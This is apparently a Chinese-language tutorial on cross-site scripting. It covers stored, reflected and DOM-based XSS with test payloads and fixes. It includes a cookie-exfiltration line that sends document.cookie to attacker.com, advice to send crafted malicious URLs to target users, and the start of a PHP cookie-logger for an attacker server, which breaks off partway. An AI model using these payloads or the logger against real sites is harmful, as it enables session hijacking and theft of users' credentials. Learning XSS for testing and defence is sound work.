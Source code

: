 ### 手动测试技巧

*   **输出位置未知:** 如果无法直接看到输出（如后台审核），可以尝试将信息外带（如 `new Image().src="http://attacker.com/?c="+document.cookie`）。
*   **万能Payload尝试 (不保证成功):** `"/></textarea>'"><img src=x onerror=alert(1)>` (尝试闭合多种标签)
*   **常用弹窗函数:**
    *   `alert()`: 弹出警告框，最常用作PoC (Proof of Concept)。
    *   `prompt()`: 弹出输入框。
    *   `confirm()`: 弹出确认框。
*   **可能存在XSS的地方:** 任何用户输入被输出到页面的地方，包括HTML正文、HTML元素属性、超链接(`href`, `src`)、事件处理器(`onclick`, `onerror`等)、CSS样式 (`style`属性, `<style>`标签)、JavaScript代码块内。

## XSS 实战示例

### 1. 存储型 XSS

*   **原理:** 恶意代码存入数据库，影响后续访问者。
*   **场景:** 留言板、评论区、用户资料。
*   **测试:** 在输入框提交 `<img src=x onerror=alert('StoredXSS')>`。保存后，重新访问或让其他用户访问该页面，看是否弹窗。
*   **修复:** 后端对用户输入进行严格过滤（移除危险标签/属性）或充分HTML实体编码后再存储或输出。

### 2. 反射型 XSS

*   **原理:** 恶意代码在URL中，服务器反射给当前用户。
*   **场景:** 搜索框、URL参数控制页面内容。
*   **测试:**
    1.  在搜索框输入唯一标识符（如 `TESTXSS`），提交搜索。
    2.  查看URL (`.../search?q=TESTXSS`) 和页面源码，找到 `TESTXSS` 的输出位置。
    3.  **例1 (输出在 `<title>`):** `<title>Search results for TESTXSS</title>`
        *   构造URL: `.../search?q=TESTXSS</title><script>alert(1)</script>`
    4.  **例2 (输出在 `<input>` value):** `<input type="text" name="q" value="TESTXSS">`
        *   构造URL: `.../search?q=TESTXSS"><script>alert(1)</script>`
    5.  将构造好的恶意URL发送给目标用户。
*   **修复:** 后端对从URL参数获取并要输出到页面的内容进行HTML实体编码。

### 3. DOM 型 XSS

*   **原理:** 浏览器端JavaScript处理不当导致。
*   **场景:** 页面内使用JavaScript动态修改内容，数据源来自 `location.hash`, `location.search` 等。
*   **测试:** 查找页面JavaScript代码中使用 `innerHTML`, `outerHTML`, `document.write` 等的地方，看其数据来源是否可控且未编码。
    *   例如，如果代码是 `document.getElementById('content').innerHTML = location.hash.substring(1);`
    *   构造URL: `http://site.com/page#<img src=x onerror=alert('DOMXSS')>`
*   **修复:** 前端JavaScript在将数据写入DOM前，进行安全的编码或过滤。避免使用 `innerHTML` 等危险方法处理不可信数据，优先使用 `textContent` 或安全的DOM操作方法。

### 反射型XSS获取用户Cookie信息 (示例)

**目标:** 利用反射型XSS漏洞，窃取用户访问 `http://目标URL` 时的Cookie，并发送到攻击者的服务器 `http://恶意URL`。

1.  **创建攻击者服务器页面 (e.g., `logger.php` on `http://恶意URL`)**:
    ```php
    <?php
    if(isset($_GET['cookie'])) {
        $time = date('Y-m-d H:i:s');
        // 修正: 使用 $_SERVER 获取 IP
        $ipaddress = $_SERVER['REMOTE_ADDR'] ?? 'UNKNOWN';
        $cookie = $_GET['cookie'];
        // 修正: 使用 $_SERVER 获取 Referer 和 User-Agent
        $referer = $_SERVER['HTTP_REFERER'] ?? 'UNKNOWN';
        $useragent = $_SERVER['HTTP_USER_AGENT'] ?? 'UNKNOWN';
